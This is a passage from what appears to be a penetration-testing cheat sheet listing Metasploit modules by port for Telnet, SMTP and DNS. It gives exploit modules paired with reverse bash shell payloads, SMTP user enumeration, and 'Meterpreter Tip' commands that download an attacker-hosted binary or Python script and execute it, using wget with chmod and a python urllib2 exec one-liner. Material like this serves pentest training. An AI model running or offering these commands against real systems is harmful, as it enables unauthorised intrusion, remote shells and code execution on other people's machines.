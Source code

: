 ### Exploit: Telnet Encryption Option
```bash
use exploit/linux/telnet/telnet_encrypt_keyid
set RHOST [IP]
set PAYLOAD cmd/unix/reverse_bash
```
**Purpose**: Exploits a vulnerability in the encryption option handling.

### Meterpreter Tip:
After gaining Telnet access, download and execute a Meterpreter payload:
```bash
wget http://[IP]/meterpreter.bin -O /tmp/m
chmod +x /tmp/m
/tmp/m
```

---

## Port 25/465/587 - SMTP
**Service**: Simple Mail Transfer Protocol  
**Common services**: Postfix, Sendmail, Exim, Microsoft Exchange

### Auxiliary: SMTP User Enumeration
```bash
use auxiliary/scanner/smtp/smtp_enum
set RHOSTS [IP]
set USER_FILE /path/to/usernames.txt
```
**Purpose**: Enumerates valid users via VRFY, EXPN, or RCPT TO.

### Exploit: Exim RCE
```bash
use exploit/linux/smtp/exim4_deliver_message_priv_esc
set RHOST [IP]
set PAYLOAD cmd/unix/reverse_bash
```
**Purpose**: Privilege escalation in specific Exim versions.

### Meterpreter Tip:
After gaining access, download and execute a Meterpreter payload:
```bash
python -c "import urllib2; exec(urllib2.urlopen('http://[IP]/meterpreter.py').read())"
```

---

## Port 53 - DNS
**Service**: Domain Name System  
**Common services**: BIND, Windows DNS, dnsmasq, Unbound

### Auxiliary: DNS Version Detection
```bash
use auxiliary/gather/dns_info
set RHOSTS [IP]
set DOMAIN [DOMAIN]
```
**Purpose**: Gathers version and information.
